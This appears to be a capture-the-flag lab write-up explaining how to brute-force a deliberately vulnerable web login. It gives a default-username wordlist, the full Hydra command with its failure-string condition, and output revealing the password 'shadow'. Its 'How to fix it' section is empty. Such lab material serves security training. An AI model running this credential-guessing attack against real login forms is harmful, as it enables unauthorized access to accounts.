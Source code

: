 # Breach: Bruteforce


<br>

### >> [Flag file](../flag) <<

<br>


## Explanation:


#### Step 1:

- Go to the sign in page (either `/index.php?page=signin` or `/?page=signin`).

> When you try to log in, the form redirect you to the page :<br>
> `/?page=signin&username=_____&password=_____&Login=Login`<br>

> You notice also that an image is displayed, saying "WrongAnswer".<br>
> You can deduce that when the login is correct, the image "WrongAnswer" will not be displayed.


#### Step 2:

Let's try to bruteforce a login. We will use Hydra to do so.

- Install `hydra` if you haven't already.


#### Step 3:

Let's get the list of most common usernames and passwords.

- You can find a list of ~3.5k common passwords in `/usr/share/wordlists/john.lst`.
  - This list is native to Kali Linux.
  - But you can find it on the official repo of John The Ripper.<br>
    [john-the-ripper/run/password.lst](https://github.com/pmittaldev/john-the-ripper/blob/master/run/password.lst).

- The repo SpecLists gives a quite exhaustive list of usernames.<br>
  [SecLists/Usernames/top-usernames-shortlist.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
```txt
root
admin
test
guest
info
adm
mysql
user
administrator
oracle
ftp
pi
puppet
ansible
ec2-user
vagrant
azureuser
```

#### Step 4:

Use Hydra to bruteforce a login.

- The `-vV` flag is used to display the login attempts.
- The `-L top-usernames-shortlist.txt` flag is used to specify the username list.
- The `-P /usr/share/wordlists/john.lst` flag is used to specify the password list.
- Next, the host, with `-s <port>` to specify the port number.
- `http-get-form <request>` option says that we are trying to log in using a GET request.<br>
  The `<request>` syntax is as follows: `<path>:<form_fields>:<success_or_failure_condition>`
  - The form is located at the root of the website. So we use `/` as path.
  - The form has 4 fields: `page`, `username`, `password` and `Login`.
    - `page` is always `signin`.
    - `username` is the username we are trying. So we use `^USER^`.
    - `password` is the password we are trying. So we use `^PASS^`.
    - `Login` is always `Login`.
  - If the image `WrongAnswer.gif` is displayed, it's a fail.<br>
    So we use `F=<img src=\"images/WrongAnswer.gif\" alt=\"\">`.<br>
    - The `F=` is used to specify the failure condition.
    - And it is followed by the HTML code of the image `WrongAnswer.gif`.

- The full command is:
```bash
hydra -vV -L top-usernames-shortlist.txt -P /usr/share/wordlists/john.lst 192.168.192.18 -s 4243 http-get-form "/:page=signin&username=^USER^&password=^PASS^&Login=Login:F=<img src=\"images/WrongAnswer.gif\" alt=\"\">"
```


> We get the lines :
> ```
> ...
> [4243][http-get-form] host: 192.168.192.18   login: root   password: shadow
> [4243][http-get-form] host: 192.168.192.18   login: admin  password: shadow
> [4243][http-get-form] host: 192.168.192.18   login: test   password: shadow
> [4243][http-get-form] host: 192.168.192.18   login: guest  password: shadow
> [4243][http-get-form] host: 192.168.192.18   login: info   password: shadow
> ...
> ```
> So we deduce that the password is `shadow`, and that the username doesn't matter.


#### Step 5:

- Log in using the password `shadow` (the username doesn't matter).


<br>


## How to fix it:

- ...


---

[[Back to main page](/#darkly)]
